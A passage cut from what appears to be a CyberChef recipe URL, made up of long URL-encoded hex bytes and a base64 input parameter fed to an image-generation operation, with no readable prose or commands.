0C0%20CC%202A%203B%207E%20D5%208A%2011%2005%20E8%206F%2042%2076%20B0%204C%2078%20AF%2004%20FC%2059%204C%20C7%205C%20A4%2007%20F6%20A9%20A8%2074%203C%20B6%20A0%2061%2076%206B%2049%2002%2044%206B%20DD%20F4%20DC%20BE%206F%2092%2098%20EB%202D%20BE%20E7%2013%2045%2062%2021%2047%20A7%20F3%20E0%20AC%202F%2027%2087%2092%20B0%20B3%2013%20A9%207F%2087%20F7%2009%2088%2066%2017%2095%2010%20FE%20ED%2030%20B4%2094%2041%20A8%2075%201B%20AB%2068%20A3%20E9%20DE%20A3%20A6%20B3%2060%20FE%2099%209D%20BC%20AF%2000%20C8%2002%20EC%206F%2011%20C8%20E5%20C1%2002%2025%20CE%209F%20E7%206A%20B8%20DA%203E%20C9%2022%2056%2033%2073%2049%2030%2087%20F9%2002%20E1%201B%2078%205E%207E%2083%20E5%20B3%2006%20DC%20BD%2024%20AB%2087%207C%206C%20D0%2022%201A%208D%204B%2042%207F%20EB%204B%205D%201D%2065%208E%20E0%200F%2086%202D%20C0%2037%204D%203C%20F9%20C4%2088%20F0%200A%2085%20E6%20B8%20C9%2006%20BA%2000%206B%20DA%20D5%2079%2067%2080%2030%2079%2045%20A5%2024%2064%2048%2010%20CB%2078%20BF%2082%2061%209A%2074%20A7%20C6%206F%20EA%20E4%2020%208D%207F%208A%209B%20E8%20B1%209A%2055%200F%2038%20C0%204F%202F%206C%20BD%20E7%2017%207C%2039%2079%201E%209F%207B%201C%2043%2026%20A0%2071%2007%20CA%2046%206E%20F5%2000%20DA%20F9%20DD%208C%205B%20D5%2091%20CD%2060%20EE%20B1%2027%2084%2022%20D2%2026%204F%200F%20B4%20CE%2030%20CB%2078%20B0%20A8%208D%20F3%20AB%2063%20BC%207D%2081%204A%201C%2094%20CB%2058%2054%20FA%2075%2031%203C%2093%20F8%20CE%206A%201B%20A3%20F1%2090%2086%2025%208E%2028%2036%208E%20BD%20C8%20E9%2028%200C%2093%2024%20C3%207B%2032%20CF%2060%205C%20D7%200B%2095%20DB%20D2%20C4%200D%2073%20B3%20C1%202C%201A%20F9%20D1%20B4%2065%20AF%2080%20E4%2084%2066%204D%20AF%20F7%20E8%20A7%2065%2009%20CA%2031%202F%2057%2051%2098%20F4%2048%204A%2026%2015%201C%2089%20BD%20B6%202A%200E%204C%2007%2014%2027%207E%2056%20E6%20A1%2060%20A7%20F8%2036%20A1%203D%209E%2063%2093%20FE%2049%205A%20ED%2019%200C%20EC%205C%20C5%20A7%20C4%2018%201B%206B%201C%2014%200D%2028%204D%20C2%20AF%20BD%205D%201E%20B3%20EC%2040%20AB%20C4%20E3%20A9%2044%2015%207F%204A%2025%20BD%20F7%2026%20D2%2024%20B8%2077%20C7%20D9%2029%20B3%20CE%2015%20EC%20F4%2066%20A0%2091%2049%20CC%2089%20D6%20FE%20B8%206F%2034%20B5%2066%2025%2021%207B%207C%2090%20F9%20FA%204B%20A7%208C%2083%20B3%209F%20EE%2089%20B3%2034%2027%2016%20BA%20B1%20ED%206C%20A2%20EC%208A%2014%208C%20A1%20D7%2085%2003%2065%20AB%2009%2007%20EE%206E%200B%20E1%2020%20D7%20D9%2009%2050%2022%20C4%2015%20D6%2079%20B2%208A%209A%2039%2002%20BA%2042%20FB%2026%20F7%20B2%2050%20D5%20ED%2024%2039%209F%2088%203D%2013%2018%202D%20A9%2050%205D%20ED%2040%2076%2077%20CC%2053%208E%209E%20DA%20EB%205D%20FA%2093%207A%2069%20E0%2078%209F%20D9%2044%20D5%20E7%208E%20E0%20DC%2051%20C5%20AC%2078%203F%2058%20D0%20C1%2068%2093%2083%20B6%20DC%20D2%20E2%204A%2029%2050%20F2%20D8%2033%201E%202F%202D%20E0%204F%2076%200C%2023%2072%2031%2046%20CC%20A4%20A6%209F%2081%204D%204E%203D%201D%20FC%20D9%201A%2047%205E%2037%20FB%206F%204E%206A%2007%2088%20D3%207E%20B4%2030%20F1%2001%20F6%2068%2037%205B%206A%206A%20A7%20BA%20F7%206B%2075%206D%2099%20D4%2007%205D%20DB%20E9%2043%2050%2009%2021%206D%200B%20F3%206E%2005%2014%2091%20A6%20E4%206C%20FB%20B7%2099%2046%20DB%20BD%2050%2085%20FD%20E6%20EA%20C8%2044%208E%2006%20A0%2098%202F%2065%2058%2010%2003%2039%20E9%20E8%2005%20E5%20A6%20DC%2030%2057%2002%2068%2083%205F%2070%2018%2085%2059%20D4%20E4%2020%204A%202F%2076%20F3%2010%20BE%20DC%2061%203D%204C%202F%20ED%20DC%20CC%20CF%20F4%20C4%20A0%200B%208F%2052%20FB%201D%20D8%2051%200F%20DD%20CD%204E%2046%2046%206F%206B%20A6%2020%2075%20AE%209C%2016%20B3%20C5%2076%207F%20D4%2052%2022%2027%20E6%2027%20AF%20E9%2066%205A%2070%20D4%205F%2043%208F%2094%2075%2073%20F1%2063%20BE%2009%2031%20BF%203C%20BC%20CB%20CA%209C%206D%2013%2097%208E%20CB%20BB%20B3%20D1%20A0%20BF%20CD%2011%2043%202E%200E%20D6%206C%20CF%204E%2095%201C%200D%200C%2095%20ED%208C%201E%2087%2092%2029%20BA%20E6%20A5%20BC%20E3%2072%2061%2011%2009%209C%2029%2097%20A1%20DD%2078%20A5%20F2%2041%2017%206E%2072%20F5%20A6%2009%20F7%20E4%20C0%2063%20CC%20E0%20EB%20AC%200A%203A%20BC%2087%2028%2037%20AD%20DD%20EC%20CB%20BE%20E3%203C%2089%2036%20B4%20F7%20FD%20C9%203D%2036%2014%20BB%2004%20F8%2026%203F%2019%20A2%2049%2031%2023%20FB%204A%2087%20C9%20F7%2098%20B8%2088%20C2%2029%2002%2028%209A%20ED%2080%2086%2078%2010%20BF%20D1%209B%2037%2089%2096%206C%2061%209E%20C4%203B%207F%20CD%20B9%20E9%207A%20C8%207E%2003%205D%209E%20EE%203B%20AD%20EF%2079%203D%20BF%2081%200E%20DC%202E%2080%204C%2059%20DF%2021%201E%20E6%20A3%20BC%2037%2090%2020%2068%2014%20DF%200A%2073%207C%20E7%20AB%2004%2045%2091%2020%20D1%200F%20C4%2080%20C3%2092%2046%207C%20E8%20EB%205E%2056%20BD%20D2%203A%20B4%2093%2083%205F%20A8%20B7%20D6%2011%209B%2088%203A%2040%20B0%20F7%2074%205D%20BE%2003%2090%206F%20C1%2064%20FF%20EB%2092%205D%2030%2053%20C0%2098%2087%204A%2097%20E9%2078%204F%203D%2083%2091%20C2%20E8%20C7%2093%2069%208E%2062%2027%2048%209D%20EC%20F8%20A0%2063%203F%2000%2028%20EB%2055%20CF%2044%207E%20C6%20E1%207A%20F0%2035%2037%2066%2084%20D9%205C%20AE%202D%2073%2058%201E%20CD%201B%20B2%206E%20C8%20D7%200D%20B0%20B5%20C1%2080%206D%2030%204C%206E%2066%2094%2030%204B%200A%2018%2045%2082%2010%20E7%205D%204A%20B3%2065%2008%2047%20D2%2069%20C1%200B%2004%202E%2009%2094%2099%2094%2062%20C0%20A5%20CF%2076%20BD%2002%20E7%208F%2079%209B%202C%20F4%207B%20DE%2041%2051%206A%2095%203D%2087%2073%2087%20B4%20BD%20E8%20F7%20A5%20FE%20F7%20EE%20F6%20B6%2061%20BC%206E%203A%2091%20EE%2023%2066%202E%20E9%20E7%2007%2031%208D%206B%204D%200A%20CD%20C4%20D2%2029%2060%2086%2098%20CE%2063%2034%20E2%2010%2022%2012%2093%20B2%2086%20BD%208A%20EC%20D3%2068%2011%20B2%202E%2039%2092%208C%2061%2019%2069%20EA%2034%206F%204B%20AD%2009%20D0%20C6%2025%2018%2086%2040%20C7%2088%20C1%2003%2061%2035%2060%2075%20CA%200A%20C7%20DC%2018%209C%20B1%201A%20E3%201D%20D0%20C4%20CB%2091%205E%2091%2021%20F1%20BE%2031%20B5%20C6%20F1%207E%2033%206E%203D%20F8%201D%2085%201F%2024%20AB%20EA%2033%208B%20C6%20CA%208D%20C2%2058%20C8%209E%2036%2029%205D%204C%20DD%20BC%20EC%201D%208C%2004%20B0%206D%203D%2088%2005%2098%20F7%20C8%2075%20CE%20B6%20A9%20CB%2089%2069%20B0%202A%20E0%20BB%2046%202E%20CD%2081%20AD%2049%2062%2008%201A%2043%20C8%2063%20F6%208F%2001%2098%206F%20F4%2046%2063%20AF%2024%20A4%2080%20AC%20A9%206D%200C%200F%20AA%205E%2090%2071%20A4%2020%207C%2021%206D%201B%20EF%20C3%2079%20AF%2019%20E0%20E6%20FC%2047%2007%20E7%2071%2019%2026%20B6%20B6%20FE%20A2%20AD%2001%20E3%20E7%202B%204C%20DF%202C%2037%20BF%203B%20BD%2001%20C1%20C7%20B8%2034%2026%20C4%20DE%2050%207B%2072%20F3%20D2%202D%20C5%20B0%2080%2080%207C%20BA%20A1%20FC%20D9%20D2%20A8%2062%200E%20A3%2083%201E%2091%2019%20FC%20BC%20B3%2017%2087%20B0%2036%200D%205F%2030%202A%2069%209B%20A0%20B4%200E%20FE%20FF%203A%2092%20BC%20FA%2004%209A%20AF%201B%20E4%20B9%2078%20CC%20DD%20C4%20FA%209A%2088%20D3%2073%200F%2081%20E1%204E%208F%20AB%200C%2041%203E%2087%20E4%207C%207E%2092%20DA%209A%2073%20F6%20C2%20A6%20C1%20D6%2095%2036%2022%2008%20B6%2072%20C2%20EE%2018%2028%20E7%207C%20DD%2064%20E7%2028%20E3%207D%209C%20F3%20D7%203B%203C%20DA%2002%20C3%2029%20E0%203A%20B0%203C%2090%20D5%2081%20BB%20EE%2081%202A%203A%2045%20C7%20AE%2052%203A%2009%2016%2052%20AE%2058%2038%204A%2069%2092%2090%209A%2003%20FA%2038%20AC%20DF%2092%208F%209A%20DE%2014%207C%2011%20C4%20FD%20AB%2093%2074%20B3%2025%205B%2093%20ED%20D1%205A%20A5%2047%2097%206B%200C%205A%20DE%20C3%20F9%20F3%2096%20A2%200F%205A%20E7%2042%200D%20D7%203B%20DC%20B6%2078%2029%2058%2026%2088%20B5%2041%2059%20C0%209D%2042%20B5%2073%2052%2008%20E3%2042%200C%2039%20F4%20E9%2050%20BB%20E6%2042%2052%207B%20E0%2092%2091%208A%2081%2037%20AD%2047%20B0%20EE%2085%207D%2044%20BE%20C9'%7D,'Standard',false)Generate_Image('Greyscale',8,256)&input=NDY3MjY5NmQ2NTcyNmI2NTAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGViOWZhZjI1M2QxZmE5M2Q4MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyOGUwYTFmZGM1YTBhZmM0YzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZWQzMWIyMDQ2Y2IxYTA2ZjYwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDI1ZGE5ZjBlYTc5YWIwYTEzMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGU3YzRhZTE5MmI4ZWE5OWIzZDgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEzMDZmYTMyZmU4ZDJhZWU5YzRjMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZDhhMGI1ZTAyZDVlYTIyZTZmNjAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDRkYjE5NDMwNjU0MmI3NjNhMTMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGVmNDlhZjY1OGJkNjY5MTM0YjNkODAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyMTdlYTEzY2Q4NTNhZmJkNzljNGMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZjMwMmIzYzc0Y2RjYTA4NTBlNmY2MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDFkODY5YzY5Nzc0N2IxY2Q5M2ExMzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGUyNGNhZTZhZjExNjg5YTc0ZmNiM2Q4MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEzN2Y3YTNhYTFiYjJkZWI5NzA3OWM0YzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZDAxMGI0YWIyODllNDI4ZjE4OGU2ZjYwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDU4Mzk5N2E5ZWRlM2U2ZDFhZGQzYTEzMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGVjYzRlZjBhZTI0MzQzYTVhYTQ1Y2IzZDgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyNzZmMjE5YTM3ZTU2NGJjYWJlYzc5YzRjMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZjkyMWYyZWI1MDNkM2Y4N2E4MjY4ZTZmNjAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDBmZjIxZTI5NTg0NWMwYzhhYzdhZDNhMTMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGUxMDFmYTM2ZjRjZWM2MTdkYTY4YTVjYjNkODAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEzMzgyMGI1MjE3NzI2YjMwNGJhZGJjNzljNGMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZGNjNzE5NWYzMTFmYTlkOGY4YTQ4NjhlNmY2MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDQ3NjlhZjQxZGJhMGFlNGQwZGJmY2FkM2ExMzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGVlOTJlYTE2MjQ4YjFhM2Y1OTQ4MDdhNWNiM2Q4MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyMmZlMmJiMzdmZDlhYjQxNGY3YzA4YmM3OWM0YzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZjYwMzY4OWQwMDRlYTk2MzcxMDYxZDg2OGU2ZjYwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDEzMDUyZGU1ODBmMmFmMzUxYjhiMjRjYWQzYTEzMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGUzZDhkZTQzY2MxMWVhMWQ1YThkOWZmN2E1Y2IzZDgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEzNDRkNDNlNDc2M2EyYjI1NGFkNGUwMTBiYzc5YzRjMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZDZmNTY0MzY5MzRiNjlmZDdhNTczMDM5ODY4ZTZmNjAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDUyMTUzZTUyZmQ3OTJlMDUwYmQxZDg0ZWNhZDNhMTMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGVkZjM1YzNkZTA1MGZlMzBkOTg1YTRjZjI3YTVjYjNkODAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyNDFkNDY0NDMwZDkwMzU5NGVjY2JmNzFmOGJjNzljNGMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZmUyNTZiZWU1OTRmODU0ZjcyNzc4MTFhMGQ4NjhlNmY2MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDAzN2QyODIzNGY3MGNkNzExZjkwYzNhYjE0Y2FkM2ExMzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGUwNTA1ZWM3NTcxMTk3NTFiYTBmOTY0YTliNzdhNWNiM2Q4MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEzMGQ4YzI2OTUxYmFmMTVhOGIxMGYzZmFlOTEwYmM3OWM0YzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZDk0ZDY3YWY1YThhMWI0YWQ5YjkxYzBhMmZiOTg2OGU2ZjYwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDRmNzUzOGExNGFkYjI5N2E0ZThmYTYxYjYwOGVjYWQzYTEzMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGVmMTE1Y2RiMzdhNDllZjBiZjJkMGJiMjkzMWQyN2E1Y2IzZDgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyMWJiNDc0OWQwYmZlMjE5ODFlNTk4OWVmZGE1ZjhiYzc5YzRjMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZjI4OTY5N2U1OTgwMzcyZWMyM2NlZGUyMDRiYzBkODY4ZTZmNjAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDFlZGYyZjAzY2VjMDUxZTI2NzQ3MjQzNzBmODYxNGNhZDNhMTMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGUyMjQxZTE4NDcyNjBkYTM3Yjk2OWZlNTE5MGNiMzc3YTVjYjNkODAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEzNzdlMjMyY2U5ZjMxNGI1MDhmMmUwM2RhZjk3OWQxMGJjNzljNGMwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZDEwMzc1ZTcyZTFkYjc5NTlkMWUzMDQ0YTBmMGU1Yjk4NjhlNmY2MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDViODUxNDM5ZTMyNDkwZjRlNWEzNThlZmIxMTkzYzhlY2FkM2ExMzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGVjOGNkYjY0ZTM1ZjdmOTE3M2NiNTRkMjA5YmFmYzdkMjdhNWNiM2Q4MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDEyN2Q3NDkzZjM1NDEwMGZiMWM3OTU3NWYxZThhMDY4NWY4YmM3OWM0YzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzZjg1MTdmYzFkNTYzODEwOWE2OGY1MTQxYTJkYjBhY2MwZDg2OGU2ZjYwMDAwMDAwMDAwMDAwMDAwMDAwMDAwNDBjZGIwMDYyNTUzNGMzOWViYWQxNWI2MmI2NDk5YTc2MTRjYWQzYTEzMDAwMDAwMDAwMDAwMDAwMDAwMDAwMGUxNzQ5ODBiN2Q1ZDc2NGUyOGE1YjQ5MzY5M2ZlZWI5MzM3N2E1Y2IzZDgwMDAwMDAwMDAwMDAwMDAwMDAwMDEzMzE3ZWMxOTA1NDUxM2YzNmRiYzk3ZmQyZmMwMjI4ZmRkMTBiYzc5YzRjMDAwMDAwMDAwMDAwMDAwMDAwMDAzZGRiMDI2MmY4ZDZkYmMxZDI0ODdmMDA1ZTA2MDc2ZDA0NWI5ODY4ZTZmNjAwMDAwMDAwMDAwMDAwMDAwMDAwNDQ0OTg3YjYwZDUyNDg2MjVmZmM4MTgwYzMwYjA5MjU4ZWM4ZWNhZDNhMTMwMDAwMDAwMDAwMDAwMDAwMDAwMGVlZmVjODkzMTU1ZmZjYjdjMDA3YzJjMTY1OTk5ZmZjZDI3ZDI3YTVjYjNkODAwMDAwMDAwMDAwMDAwMDAwMDEyMjAyN2RmZGI1NDAwNzkwNjAwODY2NjMzY2VlZTAwNzVmODVmOGJjNzljNGMwMDAwMDAwMDAwMDAwMDAwMDAzZjcwNzg0MDQ5NTYwMDhmOGIwMWNiYmI1YzcyMjMwMDk0MGNjMGQ4NjhlNmY2MDAwMDAwMDAwMDAwMDAwMDAwNDExODhjZTBmZjUzMDFkMGQ5ODI3ODg5NDY5Zjc1ODFmNjE3NjE0Y2FkM2ExMzAwMDAwMDAwMDAwMDAwMDAwMGUzYWRkNzMxMDE1ZDgyNTk0ZWM3OGRkZjZhZTExNGMyMTMzMTMzNzdhNWNiM2Q4MDAwMDAwMDAwMDAwMDAwMDEzNGE0NTFkYjgzNDRjN2NmNzI2OGQ0NDEyYTMzYjc2NzNkZGJkZDEwYmM3OWM0YzAwMDAwMDAwMDAwMDAwMDAzZDdiZWRhNDhjNTZmNjg3MTFmYWQ1NmUzZWI1YzkxMzljNDQ4NDViOTg2OGU2ZjYwMDAwMDAwMDAwMDAwMDAwNDUwODI0YmZkNmQyMTJjOWJhMGE1NTIzNDI5NDdmYmNlNmVmY2VjOGVjYWQzYTEzMDAwMDAwMDAwMDAwMDAwMGVkOWM3ZjgwNTI1ZjNlN2U4YjFiZDVmNTY2ZjY4MDg3M2EyMDcyN2QyN2E1Y2IzZDgwMDAwMDAwMDAwMDAwMDEyNGU2ODBjMGRmYzFjMzgyZDlhODU0MTUzYTEyYzFjOWNiNzA5Zjg1ZjhiYzc5YzRjMDAwMDAwMDAwMDAwMDAzZmYzYWMxNjE0MDYyNjRjNjRlYWNkNjM1Y2IzZTYyN2U3OTE5ZTBjYzBkODY4ZTZmNjAwMDAwMDAwMDAwMDAwNDAxY2E2MzMzNjBiN2JmNmI3MmE3NTM1NDc5YzNiNzgzOGZhZTMxNzYxNGNhZDNhMTMwMDAwMDAwMDAwMDAwMGUwMjdiYjVkZDMxOTA4MTI5MWViOTVkNTY4ZTY0OTBjNGQwYTM1YjEzMzc3YTVjYjNkODAwMDAwMDAwMDAwMDEzMDc4ODk0NDVkYWY5YzNlZmEyOGY0NTUyZDNiZmY5NmY1OWI1NDliZGQxMGJjNzljNGMwMDAwMDAwMDAwMDAzZDg4ZGRmNmVjNGEwZTY0MjBiNmQxNmQ1ZTVjODAwZjIxNGU5NTdlODQ1Yjk4NjhlNmY2MDAwMDAwMDAwMDAwNDRkZDQ0MTIyNmZiMTNiZTcxOTI1YjI1NDNjN2MwMTFmMzcyZjUwMmNlYzhlY2FkM2ExMzAwMDAwMDAwMDAwMGVmNDU2ZTNmN2EwOWJjODM5YWZmYzlmZDY0Njg2MDNhMWQxZTE1ODY3MjdkMjdhNWNiM2Q4MDAwMDAwMDAwMDEyMTZkMjM0MTBiMWU4N2M0ZWEwMDdlMDUzZWFjYjA0YjI1YTMzNGNiOWY4NWY4YmM3OWM0YzAwMDAwMDAwMDAzZjMyNWY1NjM5OWEyYzg2ZjJiODA4MzBkYzJhNzk4ZjlmY2I1ZDc3OGUwY2MwZDg2OGU2ZjYwMDAwMDAwMDAwNDFkZmMxNTM0ZWViNjdjYTFlOGMxYzU5NDY2YjhlZDBlMDc5NDUxMGQzMTc2MTRjYWQzYTEzMDAwMDAwMDAwMGUyNDA2MzVkNzIyOTM4N2IyMmQ2MjZjZjZiYThkMjU5MzA4ZjZkYjk1ZGIxMzM3N2E1Y2IzZDgwMDAwMDAwMDEzN2UwYjU0NTFmNmZjYzg5ZjY1MzdhNzEyOGFkNWZjZmQ5ZDEyNDhmNDQ5YmRkMTBiYzc5YzRjMDAwMDAwMDAzZDAzMTk1NmRhMTIwNzdkZTEzZGQwYjliZWRhNTQwNzA0ZTViZmZkMTZmZTg0NWI5ODY4ZTZmNjAwMDAwMDAwNDU4NWFmNTI0YjNmMDkwNDMzYzQ1OThlODI0YmQ2MDk4ZjNjODAwNWIyMDJjZWM4ZWNhZDNhMTMwMDAwMDAwMGVjY2NhMTVmZjljMTlmOGU1YzZlY2VkMmM3Zjg1MzFlZDFjN2MwMGM5ZjA2NzI3ZDI3YTVjYjNkODAwMDAwMDEyNzc3YjM0MDBlNjJlMGQzYzZhMjcyNWU2ODBjZGRhMjVhNjg2MDE3ZTE4YjlmODVmOGJjNzljNGMwMDAwMDAzZjkxMDlkNjAxM2I2MzE1YzZhYjcxZmMzYWMxNzQ0YjdjYmFjYjAzMDMyZDhlMGNjMGQ4NjhlNmY2MDAwMDAwNDBmYjllNTMwM2M5MzViNDZhYTkxYTA2NGE2MzE2ZjkwNzhhNzk4NTg1ZTRkMzE3NjE0Y2FkM2ExMzAwMDAwMGUxMDhlM2RkODQ3ZmQ0OTZhYWFmYWIwYmZiYjViMjBmODhkYjhlY2NjYzNmNWRiMTMzNzdhNWNiM2Q4MDAwMDEzMzlkMzQ0NGNlODA1N2YyYWFhMGE5OTgwODk0OWYxMGRkNDhkMjc3NzY0MTQ0OWJkZDEwYmM3OWM0YzAwMDAzZGNlNWQ2ZWY3MmMwZDAxZWFhYjFhZWVjMWRmN2UxYjk0NTdkNWY5MTEzZTM2ZmU4NDViOTg2OGU2ZjYwMDAwNDQ3M2M1MjIxMWU2MTU4MjJhYTlhYTIyNjI0MTAzMjhmNmQwNTQwZmJiYzM1MjAyY2VjOGVjYWQzYTEzMDAwMGVlOWM2ZGY3M2EzYjM0Yzc2YWFlYWJmN2I3ZTM4NWVkMTI1OGQ2MTA4ODY1NWYwNjcyN2QyN2E1Y2IzZDgwMDEyMmU2YTQxMWNiNDlkNzY5MmFhMmE4MTA5MDM0Y2MyNWJmY2Q1MzM5ZGNiZDQxOGI5Zjg1ZjhiYzc5YzRjMDAzZjYzYWJlM2E3OTdlNTEyZmVhYjZhYzM5Zjg1Nzc2N2M4MDc1NWRjZTQ3ODU2MmQ4ZTBjYzBkODY4ZTZmNjAwNDEzNGE4MzRiOGYwM2RiZTAyYTkyYTY0ZTBjZDExMzg3YzA5NTQ0NzNlOGNkMzY0ZDMxNzYxNGNhZDNhMTMwMGUzZDdhYzU3OGQxODQ0ODMwNmFmZWJiNzMxNzViYmNjODYxZjU2ZTljMmQ3NWQzZjVkYjEzMzc3YTVjYjNkODEzNDUwYTZkMGQ1YWNlZmM1OGFhMDI4OTFkYjE0ODg3N2NiMjE1MjJlNjY1MTQ1YzE0NDliZGQxMGJjNzljNGMzZDZkOWJhNTk1NGE3MjA2Y2RhYjA2ZGZhNDliN2RjOTA3OWYzNWY2M2JiZGI2YzYzNmZlODQ1Yjk4NjhlNmY2NDUyNGU4YmNmNTdiOWYwYTc0YTk4YTQwYmZlOTA0N2Y4OGUxZDQxMzQ4ODQ5MjZiNTIwMmNlYzhlY2FkM2ExM2VkZmYyZDg3MTUwOGUxOWI5N2FlZGJlMTgwMmY4ZTgwZGQzMjU2M2Q3ZGNmZmZhOTVmMDY3MjdkMjdhNWNiM2MyNDAxZTRjOWI1OWQzMmU4ZjBhMjQ4MzJjMDYwZDJjMTQ1ZGZkMzQ1MDQ3MDAwYWY0MThiOWY4NWY4YmM3OWM2N2UwMjNmN2U5NGU1ZGUyZDE5YjdmYzVlNjBiMTVlNjM2YzQwNWQ2ZDhlOTgwMWExNjJkOGUwY2MwZDg2OGU2YjgzMDc0MTAyZjczYzQzNjVhZTkwMDZjMzMxOWI0M2I1MjZlMGM1MjRkMmVjMDJiMzM2NGQzMTc2MTRjYWQzYThjNTg5NjM4NjExYzZlNTNjYTJmODBhNjVkYWU5NjQ5NWZhMzE2ZGZmNWUyNjA2OWRkM2Y1ZGIxMzM3N2E1Y2FkNmNkZjM0Y2IzYTZhM2RjN2I2MGMxYmJjNGEyZjNmZjQwYjViMjQwMTQzN2IwYWU0NWMxNDQ5YmRkMTBiYzdhNTI3NDFkNzc5Y2JhYjQ0Njg5MzE2Mjg4NmZiNjFjMDE2MTk0OWZlMDM2NTA5OWEzZWM2MzZmZTg0NWI5ODY4YmRmOTYyNTEwZTc4YTk2ZWFkZmRiMzZkY2EwOTMyNjAzMzJmN2UwMzA1M2Q5ZWViNDI2YjUyMDJjZWM4ZWNhZDg0MGYzN2RiOTM4ZGFmMjJhNDA0OWQyNDdiOWZkZmIwNWRlMTAzMDU4ZGM0ZTIyOTY3YTk1ZjA2NzI3ZDI3YTRjZTExZDA0OGZjZDRhMWY2YmUwZmU1ZmU4OGUwNDA5OGM0MzM4NThjZDQ2ZjM3NmYzOGFmNDE4YjlmODVmOGJmNzMzYTU4ZmQwNzU3YjIxMjgzMTAzYzAyZGQzMGUxZWQ2ZTVjY2NkNzU2YTFkMTIxY2RhMTYyZDhlMGNjMGQ4MTFkY2JjZDA1ODk1MDlmM2VjNWI4NDYwNjQ1ZDkzMjI1MjNjNzc3NTE1MmIyNWJmMjc0YjMzNjRkMzE3NjE0YzNhNDc4NzU4Y2RmNTllMWMyNmM4Y2ViMGJlYzRmZGY3ZGY0NjkxMTViNWU5ZmM4MWY5NzlkZDNmNWRiMTMzNzY0YmU4Yzk0ZDc0MTRlMzI2N2E3ZDcyOTk4MjZmMDQxMDQxNmFmYmI0OTQyZTA3YzIwZjBlNDVjMTQ0OWJkZDEzZjgyZDdmNzUxNjM3MzVmYjhiODUxZWVlYzdhMThlMzhlMzJhMDg5N2Y2NjMwODY3MTE5M2VjNjM2ZmU4NDViYzBjNjUwMTE1YjM1MWQ0MDhkOGNkYTIyMjY4YmFkMzRkMzVlYjFkZjAxM2I1OWNiOWJhZmMyNmI1MjAyY2VjODYxNmJkODNiNDlkNWE1NjFkNGQ3NGI3NzdhZDhhNWQ3NWQ0MjlhNDE4M2M5NGU3OGU4YTA2N2E5NWYwNjcyN2NiMzI4NGM0OTdlNT